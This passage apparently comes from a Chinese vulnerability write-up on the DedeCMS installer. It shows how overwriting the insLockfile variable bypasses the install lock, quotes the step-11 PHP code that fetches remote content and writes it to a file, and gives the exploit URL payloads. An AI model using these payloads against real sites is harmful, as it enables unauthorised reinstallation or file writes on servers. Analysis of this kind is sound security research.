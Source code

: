 ![](https://i.loli.net/2021/02/14/4J1kzME8CPFAxqH.png)

由此进行变量覆盖即可绕过上述判断 `xxx/uploads/install/index.php?insLockfile=1`

![](https://i.loli.net/2021/02/14/qQlDNRW7B2nJY6k.png)

后续由于install_lock.txt的存在，使得安装无法连贯，但访问相应的页面还是可以的

如：`xxx/uploads/install/index.php?step=3&insLockfile=1`（由此我们可以在后面访问step=11）

![](https://i.loli.net/2021/02/14/gG5cka9ZzYQHDRd.png)



再看源码

```php
else if($step==11)
{
	require_once('../data/admin/config_update.php');
    #包含了../data/admin/config_update.php,在其中定义了updateHost和linkHost
    
	$rmurl = $updateHost."dedecms/demodata.{$s_lang}.txt";
	#将config_update.php中的UPDATEHOST与dedecms/demodata.{$s_lang}.txt拼接为字符串
    
	$sql_content = file_get_contents($rmurl);
    #利用file_get_contents()读取$rmurl指代的文件内容
    
	$fp = fopen($install_demo_name,'w');#定义变量$fp,打开$install_demo_name指代的文件(w权限)
	if(fwrite($fp,$sql_content))#将$sql_content写入到$install_demo_name指代的文件
		echo '&nbsp; <font color="green">[√]</font> 存在(您可以选择安装进行体验)';
	else
		echo '&nbsp; <font color="red">[×]</font> 远程获取失败';
	unset($sql_content);
	fclose($fp);
	exit();
}
```

包含的config_update，其中定义了变量updateHost和linkHost

![](https://i.loli.net/2021/02/14/Vj3Z1m9YvATG6fu.png)

利用：

1.判断语句为if(step==11），须传入step=11；
存在install_lock.txt，传入insLockfile=1（取不存在的文件使得判断条件失效）

```
payload：
xxx/uploads/install/index.php?step=11&insLockfile=1
```

![](https://i.loli.net/2021/02/14/tHFvmb8LRqnlY4p.png)


